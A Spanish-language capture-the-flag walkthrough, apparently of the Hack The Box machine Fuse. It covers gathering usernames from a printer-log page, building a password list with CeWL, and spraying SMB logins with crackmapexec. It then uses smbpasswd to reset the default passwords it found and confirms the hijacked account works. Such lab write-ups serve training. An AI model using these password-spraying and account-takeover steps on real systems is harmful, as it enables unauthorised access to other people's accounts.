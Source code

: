 #### Checkear la web {-}

Sabemos que es un IIS 10.0 con asp.net. Hay una redireccion automatica a fuzse.fabricorp.local y vemos que estamos en frente
de un servicio de impressora. Miramos los logs print y vemos una columna interesante que es la de **Users**.

Nos creamos un fichero users y copiamos los usuarios de la web.

Ya que tenemos un fichero con contraseñas, intentamos fuerza bruta con **crackmapexec**.


## Vulnerability Assessment {-}

### Crackeo con diccionario {-}

Como tenemos una lista de usuarios potenciales, intentamos combinar los usuarios poniendo como contraseña los mismos usuarios.
Esto se hace con crackmapexec de la siguiente forma.

```bash
crackmapexec smb 10.10.10.193 -u users -p users
```

Esto no nos da nada. Intentamos crear un diccionario con la palabras encontrada en la web con **CEWL**

### Creando un diccionario desde una pagina web con CEWL {-}

```bash
cewl -w passwords http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers
```

Intentamos otravez el crackeo con **crackmapexec**

```bash
crackmapexec smb 10.10.10.193 -u users -p passwords --continue-on-success | grep -v -i "failure"
```

Aqui vemos algo interesante:

````bash
fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

Aqui **crackmapexec** nos dice que a encontrado contraseñas pero son contraseñas por defectos que se tienen que modificar.
Las vamos a cambiar con la utilidad **smbpasswd**

### Cambiando contraseñas con smbpasswd {-}

```bash
smbpasswd -r 10.10.10.193 -U "bhult"
> Old SMB password: Fabricorp01
> New SMB password: S4vitar123$!
> Retype new SMB password: S4vitar123$!

Password changed for user bhult on 10.10.10.193
```

Lo miramos con crackmapexec

```bash
crackmapexec smb 10.10.10.193 -u "bhult" -p 'S4vitar123$!'
```

Ya vemos que hay un *[+]* lo que quiere decir que tenemos credenciales validas.

````